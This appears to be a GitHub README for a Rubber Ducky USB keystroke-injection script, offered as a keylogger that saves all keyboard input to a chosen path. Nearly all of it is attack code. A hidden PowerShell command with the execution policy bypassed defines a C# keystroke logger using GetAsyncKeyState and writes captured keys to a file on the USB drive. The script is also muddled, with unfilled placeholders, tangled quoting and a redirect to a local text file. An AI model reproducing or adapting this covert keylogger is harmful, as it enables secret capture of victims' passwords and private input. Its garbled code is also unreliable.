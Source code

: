 # rubberduckykeylog
This Rubber Ducky Script save all keyboard touch in your choosen path 



DELAY 1000

REM ----- Rubber Ducky Keylogger -----

REM ----- Autorun -----

WINDOWS + R

DELAY 500

STRING notepad

ENTER

DELAY 500

STRING start /MIN powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "$usbPath = Get-WmiObject Win32_Volume | ? { $_.Label -eq 'YOUR_USB_LABEL' } | Select-Object -ExpandProperty Name; $logFile = $usbPath + '\keylogs.txt'; Add-Type -TypeDefinition 'using System; using System.IO; using System.Windows.Forms; using System.Diagnostics; using System.Runtime.InteropServices; public class KeyLogger { [DllImport(\"user32.dll\")] public static extern int GetAsyncKeyState(Int32 i); public static void Main() { StreamWriter sw = new StreamWriter(File.Create(@\"' + $logFile + '\")); while (true) { for (Int32 i = 0; i < 255; i++) { int keyState = GetAsyncKeyState(i); if (keyState == 1 || keyState == -32767) { sw.Write((Keys)i + \",\"); } } } } }'; $sourceCode = @(' + '"' + 'YOUR_SOURCE_CODE_HERE' + '"' + '); $sourceCode = $sourceCode.Replace(' + '"' + '\\"' + '"' + ', ' + '"' + '"' + '); File.WriteAllText(' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ', $sourceCode); (New-Object System.Diagnostics.ProcessStartInfo -Property @{ FileName = ' + '"' + 'YOUR_COMPILER_PATH' + '"' + '; Arguments = ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + '; CreateNoWindow = $true; UseShellExecute = $false; }).Start(); Start-Sleep -Seconds 2; Remove-Item ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ';' >C:\keylogger.txt

ENTER

DELAY 500

ALT F4

DELAY 500

STRING exit

ENTER

